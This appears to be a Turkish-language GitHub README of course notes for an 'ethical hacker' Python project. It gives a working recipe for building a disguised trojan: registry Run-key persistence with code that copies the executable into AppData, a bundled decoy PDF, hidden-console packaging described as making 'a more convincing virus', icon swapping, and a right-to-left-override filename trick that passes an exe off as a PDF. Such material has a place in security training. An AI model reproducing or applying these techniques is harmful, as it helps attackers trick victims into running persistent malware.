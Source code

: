 # ethical-hacker
Bu projede ,başlangıçta, Atıl Samancıoğlu'nun "Python: Sıfırdan İleri Seviyeye - Etik Hacker Örnekleriyle" kursunu takip ederek yadığım kodlar vardır. Bunları kendim geliştireceğim ve yeni scriptler ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
pip install pyinstaller
pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).
...\pyinstaller.exe PythonFile.py --onefile

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"
Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;

...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz
...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."	(;. ek olarak koymamız gerekiyor)
Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.

def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()

Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;
degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
apt-get install gnome-characters
Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.